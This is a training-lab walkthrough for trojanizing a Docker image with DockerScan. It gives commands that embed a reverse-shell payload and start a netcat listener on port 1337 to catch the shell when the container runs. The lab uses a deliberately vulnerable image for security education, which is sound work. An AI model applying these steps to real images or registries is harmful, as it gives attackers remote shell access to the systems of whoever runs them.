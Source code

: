 # Trojanized Docker Images - DockerScan

> A docker image can be trojanized with a tool called `DockerScan`. When a trojanized container is launched, the attacker can get a `reverse-shell` on-to the container

### **Lab Image : Containers**

---

* Step 1: Navigate to the `Trojanized Docker Images` directory

```commandline
cd /root/container-training/Container/Trojanized-Docker-Image/
```

* Step 2: Pull and save the docker image that is to be trojanized

```commandline
docker pull abhaybhargav/vul_flask && docker save abhaybhargav/vul_flask:latest -o abhaybhargav-vul_flask
```

* Step 3: Multiplex terminal session with `tmux` and split panes.

```commandline
tmux
```

```commandline
tmux split-window -h
```

* Step 4: Trojanize the saved docker to create a `.tar` file

>> Note: `$(serverip)` will automatically takes your server ip. 

```commandline
dockerscan image modify trojanize abhaybhargav-vul_flask -l $(serverip) -p 1337 -o abhaybhargav-vul_flask-trojanized
```

* Step 5: Run `netcat` command 

>> Note: `$(serverip)` will automatically takes your server ip.

```commandline
nc -v -k -l $(serverip) 1337
```

* Step 6: Switch to the left panel using `ctrl + b` and then `left arrow key` 

* Step 7: Load the trojanized `.tar` docker file

```commandline
docker load -i abhaybhargav-vul_flask-trojanized.tar
```

Step 8: When the trojanized docker is run, the listener should have reverse-shell access to the container

```commandline
docker run -d -p 5000:5000 abhaybhargav/vul_flask
```

* Step 9: Switch to the right panel using `ctrl + b` and then `right arrow key`

* Step 10: Type `ls` command and weather you have achieved persistence through the reverse shell.

```commandline
ls
```

## Teardown:

* Step 11: Exit from the `reverse shell` type `ctrl + c`

```commandline
ctrl + c
```

* Step 12: Exit from the `tmux` shell

```commandline
exit
```

```commandline
exit
```

* Step 13: Stop all containers

```commandline
clean-docker
```

* Step 14: Remove Trojanized container
```commandline
docker rmi abhaybhargav/vul_flask
```

---

### Reading Material/References:

* https://github.com/cr0hn/dockerscan
